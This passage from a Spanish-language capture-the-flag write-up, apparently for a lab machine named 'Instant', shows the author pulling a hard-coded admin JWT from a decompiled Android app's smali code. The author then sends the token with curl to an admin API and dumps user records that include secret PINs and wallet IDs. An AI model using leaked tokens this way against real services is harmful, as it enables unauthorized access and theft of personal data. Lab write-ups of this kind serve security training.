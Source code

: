 Vamos a hacer una peticion a cualquier ruta de la api para probarla.

```
curl -sX GET http://swagger-ui.instant.htb/api/v1/admin/list/users | jq
```

```json
{
  "Description": "Unauthorized!",
  "Status": 401
}
```

Como no estamos autenticados no podemos hacer peticiones a la api, por lo que vamos a seguir investigando la apk en busca de algun token o alguna credencial para autenticarnos.

En el código de la aplicación descompilado, nos llama la atención el archivo `AdminActivities` por lo que vamos a examinarlo.

```
cat smali/com/instantlabs/instant/AdminActivities.smali
```

```smali
    const-string v2, "Authorization"

    const-string v3, "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"

    .line 25
    invoke-virtual {v1, v2, v3}, Lokhttp3/Request$Builder;->addHeader(Ljava/lang/String;Ljava/lang/String;)Lokhttp3/Request$Builder;
```

En el archivo `smali/com/instantlabs/instant/AdminActivities.smali` hay lo que parece un **JWT** (Json Web Token), que puede que nos permita sera autorizados por la api. Vamos a intentar hacer una solicitud de nuevo a la api pero ahora con el token en el header `Authorization`.

```
curl -sX GET -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA' http://swagger-ui.instant.htb/api/v1/admin/list/users | jq
```

```json
{
  "Status": 200,
  "Users": [
    {
      "email": "admin@instant.htb",
      "role": "Admin",
      "secret_pin": 87348,
      "status": "active",
      "username": "instantAdmin",
      "wallet_id": "f0eca6e5-783a-471d-9d8f-0162cbc900db"
    },
    {
      "email": "shirohige@instant.htb",
      "role": "instantian",
      "secret_pin": 42845,
      "status": "active",
      "username": "shirohige",
      "wallet_id": "458715c9-b15e-467b-8a3d-97bc3fcf3c11"
    }
  ]
}
```
